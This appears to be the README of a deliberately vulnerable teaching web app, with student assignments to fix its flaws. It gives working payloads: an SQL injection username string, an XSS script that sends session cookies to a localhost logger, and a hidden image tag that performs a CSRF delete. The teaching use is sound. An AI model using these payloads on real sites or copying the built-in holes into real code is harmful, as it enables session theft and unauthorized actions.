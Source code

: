 # Introduction

This is a simple application that demonstrates a few typical web application vulnerablities. The example covers:

* an SQL injection vulnerability,
* an XSS vulnerability,
* a CSRF vulnerability,
* an improper storage of sensitive data,
* an improper use of HTTP methods,
* and improperly secured URLS.

# SQL Injection 

As a username, provide `student' OR '`

# XSS 

XSS attack. This entry forces the visitor's browser to send its session cookie to the attacker's page.

```html
<script>
var request = new XMLHttpRequest();
request.open("GET", "http://localhost/ex12/xss-logger/upload-cookies.php?" + document.cookie, true);
request.send(null);
</script>
```

# CSRF 

CSRF attack. This entry forces the visitor's browser to issue a GET request to the server. If the visitor is logged-in, the request will successfully access a protected resource -- will delete a joke.

```html
<img src="joke/delete?id=3&delete_confirmation=on" width="0" height="0" />
```


# Assignments
1) Fix broken access control for editing joke
entries.
2) Implement the suggested CSRF defense
strategy when deleting joke entries.
